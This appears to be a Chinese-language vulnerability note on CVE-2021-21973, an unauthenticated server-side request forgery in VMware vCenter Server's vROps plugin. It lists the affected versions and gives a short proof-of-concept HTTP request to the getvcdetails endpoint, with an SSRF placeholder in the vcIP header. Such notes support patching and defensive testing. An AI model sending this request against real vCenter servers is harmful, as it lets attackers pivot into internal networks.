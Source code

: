 # VMware vCenter Server 服务器端请求伪造漏洞 CVE-2021-21973

# VMware vCenter Server 服务器端请求伪造漏洞 CVE-2021-21973

## 漏洞描述

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

参考链接：

* https://kb.vmware.com/s/article/82374
* https://twitter.com/osama_hroot/status/1365586206982082560

## 漏洞影响

```
vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0
Cloud Foundation: before 3.10.1.2, 4.2
```

## 漏洞复现

poc：

```
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
HOST:
vcIP: SSRF
vcUsername:sa
vaPassword:sa
reqResource:sa
...
```

![image-20221207141353136](images/image-20221207141353136.png)

